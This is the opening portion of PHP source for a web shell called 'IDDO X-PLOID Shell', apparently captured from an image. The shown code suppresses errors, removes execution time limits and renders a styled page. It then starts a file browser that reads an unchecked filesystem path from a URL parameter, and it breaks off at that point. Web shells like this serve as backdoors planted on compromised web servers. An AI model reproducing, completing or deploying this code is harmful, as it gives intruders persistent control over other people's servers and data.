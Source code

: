 <?php
error_reporting(0);
set_time_limit(0);

if(get_magic_quotes_gpc()){
foreach($_POST as $key=>$value){
$_POST[$key] = stripslashes($value);
}
}
echo '<!DOCTYPE HTML>
<html>
<head>
<link href="" rel="stylesheet" type="text/css">
<title>IDDO X-PLOID Shell</title>
<style>
body{
font-family: "Racing Sans One", cursive;
background-color: black;
color:white;
}
#content tr:hover{
background-color: red;
text-shadow:0px 0px 10px #fff;
}
#content .first{
background-color: red;
}
table{
border: 1px #000000 dotted;
}
a{
color:white;
text-decoration: none;
}
a:hover{
color:blue;
text-shadow:0px 0px 10px #ffffff;
}
input,select,textarea{
border: 1px #000000 solid;
-moz-border-radius: 5px;
-webkit-border-radius:5px;
border-radius:5px;
}
</style>
</head>
<body>
<h1><center><font color="aqua">IDDO X-PLOID Shell</font></center></h1>
<table width="700" border="0" cellpadding="3" cellspacing="1" align="center">
<tr><td><font color="white">Path :</font> ';
if(isset($_GET['path'])){
$path = $_GET['path'];
}else{
$path = getcwd();
}
$path = str_replace('\\','/',$path);
$paths = explode('/',$path);
